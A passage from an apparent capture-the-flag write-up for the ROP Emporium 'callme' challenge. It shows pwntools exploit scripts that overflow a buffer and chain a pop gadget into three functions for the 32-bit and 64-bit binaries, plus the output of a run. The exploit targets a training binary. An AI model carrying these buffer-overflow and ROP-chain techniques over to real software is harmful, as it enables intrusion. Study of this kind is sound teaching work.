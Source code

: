 ```python
 20 
 21 payload += callme_two_addr # The gadget pops the 1,2,3 then returns into callme_two() and the cycle continues..
 22 payload += pop_three_addr
 23 payload += p32(0x1)
 24 payload += p32(0x2)
 25 payload += p32(0x3)
 26 
 27 payload += callme_three_addr
 28 payload += p32(0xdeadbeef) # Return address doesn't matter at this point
 29 payload += p32(0x1)
 30 payload += p32(0x2)
 31 payload += p32(0x3)
 32 
 33 sh = elf.process()
 34 sh.recvuntil("> ")
 35 sh.sendline(payload)
 36 
 37 print sh.recvall()
```

Running the exploit.
```shell
~/Documents/ropemporium/callme/32callme# chmod +x exploit.py && ./exploit.py
ROPE{a_placeholder_32byte_flag!}
```

### 64-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

The 64-bit version is the same, except now instead of popping three values off the stack everytime, we just have to pop those three values into the three registers RDI (first argument), RSI (second argument), and RDX (third argument), in that order. The functions will use the values in those registers as their arguments. I will skip everything except the exploit script since I've already explained how to find the addresses required for the functions and the gadget.

The exploit script.

```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./callme")
  7 
  8 callme_one_addr = p64(0x00401850)
  9 callme_two_addr = p64(0x00401870)
 10 callme_three_addr = p64(0x00401810)
 11 pop_three_addr = p64(0x0000000000401ab0) # pop rdi; pop rsi; pop rdx; ret;
 12 
 13 payload = "A"*40 # Overflow the buffer
 14 payload += pop_three_addr # Jump to the gadget. Each pop instruction will load the following 3 values
 15 payload += p64(0x1) # Load 1 into rdi
 16 payload += p64(0x2) # Load 2 into rsi
 17 payload += p64(0x3) # Load 3 into rdx
 18 
 19 payload += callme_one_addr # The 'ret; ' instruction returns into callme_one()
 20 
 21 payload += pop_three_addr # We repeat the same thing to load the three values
 22 payload += p64(0x1)
 23 payload += p64(0x2)
 24 payload += p64(0x3)
 25 
```